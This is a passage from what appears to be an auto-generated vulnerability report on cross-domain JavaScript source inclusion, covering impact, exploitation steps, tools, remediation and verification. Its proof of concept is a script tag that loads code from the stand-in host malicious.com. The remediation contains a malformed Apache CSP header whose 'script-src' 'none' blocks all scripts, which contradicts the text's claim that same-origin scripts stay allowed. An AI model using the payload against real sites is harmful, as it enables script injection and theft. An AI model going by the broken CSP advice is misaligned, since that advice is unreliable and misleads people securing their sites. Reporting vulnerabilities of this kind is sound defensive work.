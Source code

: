 The direct security principle being violated is the principle of least privilege, as the application is executing code from a third-party domain with the privileges of the user's browser.

### Impact Analysis
The specific consequences of exploiting this vulnerability can include:
- Execution of malicious scripts, which can lead to session hijacking, data theft, and other attacks.
- Phishing attacks, where the attacker uses the compromised application to trick users into providing sensitive information.
- Injection of malicious code into the application, which can be used to compromise the application itself.

### Exploitation Details
An attacker might exploit this vulnerability by:
1. Identifying a point in the application where JavaScript source URLs are generated dynamically.
2. Crafting a malicious script that, when executed, performs the desired attack (e.g., stealing cookies, redirecting the user).
3. Injecting the malicious script into the JavaScript source URL that the application includes.
4. The script is then executed by the browser, potentially leading to the desired outcome.

A simple proof-of-concept might look like this:
```html
<script src="http://malicious.com/malicious.js"></script>
```
This script would be injected into the JavaScript source URL and executed by the browser, potentially leading to the execution of malicious code.

Common tools used for exploiting this type of vulnerability include:
- Burp Suite for intercepting and modifying HTTP requests
- OWASP ZAP for scanning and testing web applications
- XSStrike for automated XSS detection and exploitation

### Step-by-Step Remediation
To remediate this vulnerability, follow these steps:
1. Identify all points where JavaScript source URLs are generated dynamically.
2. Ensure that all JavaScript source URLs are validated and sanitized before being included in the application.
3. Use a web application firewall (WAF) to help prevent the inclusion of malicious scripts.
4. Implement Content Security Policy (CSP) to restrict the sources of scripts that can be executed in the browser.

For example, in an Apache configuration, you can use the `mod_headers` module to set a CSP:
```apache
Header set Content-Security-Policy "default-src'self'; script-src 'none';"
```
This policy will only allow scripts from the same origin as the page and will block all inline scripts.

To verify the fix, you can:
- Use a web application scanner to check for the presence of cross-domain JavaScript source file inclusion vulnerabilities.
- Manually test the application by injecting malicious JavaScript source URLs and ensuring they are not executed.
- Monitor the application logs for any signs of exploitation attempts.
